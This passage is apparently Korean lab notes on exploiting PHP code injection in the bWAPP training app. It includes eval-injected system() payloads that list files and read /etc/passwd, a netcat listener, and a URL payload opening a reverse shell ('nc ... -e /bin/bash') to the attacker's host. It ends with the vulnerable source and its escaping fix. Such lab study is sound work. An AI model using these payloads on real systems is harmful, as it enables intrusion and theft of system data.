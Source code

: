* 사용자가 직접 php 코드를 작성할 수 있음을 뜻함
* 이는 시스템 함수도 작성할 수 있다는 뜻

### 4. 시스템 함수를 attack.php에 넣기

```php
<?php
echo "ming";

@eval("echo \"ming\"; system('ls');");
?>
```

![image](https://user-images.githubusercontent.com/28076542/51470753-2563db80-1db8-11e9-8a14-0ad1bc7d7036.png)

```php
<?php
echo "ming";

@eval("echo \"ming\"; system('cat /etc/passwd');");
?>
```

* 이렇게 하면 패스워드 정보가 웹 페이지에 출력됨
* 주소창에 `http://192.168.190.143/bWAPP/phpi.php?message=test; system('ls')`를 치면 똑같이 나옴

### 5. Shell 연결해주기

![image](https://user-images.githubusercontent.com/28076542/51471131-34975900-1db9-11e9-9670-3427a1a26f25.png)

### 6. 칼리리눅스에서 포트 열기

```bash
nc -l -p 666
```

* 666포트에서 리스닝하고 있어라

### 7. URL에 다음과 같이 입력하기

`http://192.168.190.143/bWAPP/phpi.php?message=test; system('nc 192.168.190.146 666 -e /bin/bash')`

![image](https://user-images.githubusercontent.com/28076542/51471459-19791900-1dba-11e9-8da7-0e5bc84ce944.png)

* 리스닝하고 있던 터미널에서 bash가 켜짐

### 8. phpi.php에서 대응방안 확인하기

```php
<?php
if(isset($_REQUEST["message"]))
{
    // If the security level is not MEDIUM or HIGH
    if($_COOKIE["security_level"] != "1" && $_COOKIE["security_level"] != "2")
    {
?>
    <p><i><?php @eval ("echo " . $_REQUEST["message"] . ";");?></i></p>
<?php
    }
    // If the security level is MEDIUM or HIGH
    else
    {
?>
    <p><i><?php echo htmlspecialchars($_REQUEST["message"], ENT_QUOTES, "UTF-8");;?></i></p>
<?php
    }
}
```